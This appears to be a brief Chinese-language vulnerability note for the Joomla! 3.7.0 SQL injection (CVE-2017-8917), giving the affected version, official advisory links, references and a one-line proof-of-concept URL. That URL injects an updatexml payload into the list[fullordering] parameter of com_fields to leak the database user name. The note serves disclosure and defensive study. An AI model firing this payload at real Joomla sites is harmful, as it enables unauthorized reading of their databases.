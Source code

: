 # Joomla! 3.7.0 SQL注入

## Official

https://developer.joomla.org/security-centre/692-20170501-core-sql-injection.html

http://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-8917

## Affected Version

Joomla! 3.7.0

## PoC

直接访问,爆出数据库用户名：

    http://foo.com/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml(0x23,concat(1,user()),1)

![poc.png](poc.png)



## References

1. http://blog.nsfocus.net/joomla-3-7-0-sql-injection-vulnerability/
